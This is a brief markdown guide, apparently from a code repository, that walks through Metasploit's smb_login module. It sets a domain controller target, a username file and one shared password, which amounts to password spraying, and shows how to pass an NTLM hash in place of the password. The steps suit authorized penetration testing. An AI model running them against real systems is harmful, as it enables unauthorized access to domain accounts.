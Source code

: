 # Metasploit SMB_Login


#### Setup the database
```bash
msfdb init
```

#### Start the console
```bash
msfconsole
```

#### Run the Following
```bash
use auxiliary/scanner/smb/smb_login
```

#### View current settings/options
```bash
options
```

#### Use the following to change options:
```bash
set rhosts DOMAIN_CONTROLLER_IP
set smbdomain DOMAIN_NAME
set user_file USER_FILE
set smbpass PASSWORD
```

 - `DOMAIN_CONTROLLER_IP` is the IP of the domain controller. E.g. `10.3.1.254`
 - `DOMAIN_NAME` is domain name. E.g. `my-domain.local`
 - `USER_FILE` is a file that contains a list domain usernames. MAKE SURE this list is in alphabetically order! E.g. `/root/Documents/names`
- `PASSWORD` is the password we are trying against all users. It can be the plaintext password or the NTLM hash of the password. E.g. `Password1`


#### Enable Logging to a text file
```bash
spool /root/Document/logs.txt
```

Ensure you run the `options` command after you enable logging so that you have a log of what options you had enabled.

#### Run the attack
```bash
run
```

#### Use a NTLM Hash Rather then a Password
Set the password to a hash rather then a plaintext password. The left side is the blank LM hash, the right side is the NTLM hash we are passing.
```bash
set smbpass AAD3B435B51404EEAAD3B435B51404EE:58A478135A93AC3BF058A5EA0E8FDB71
```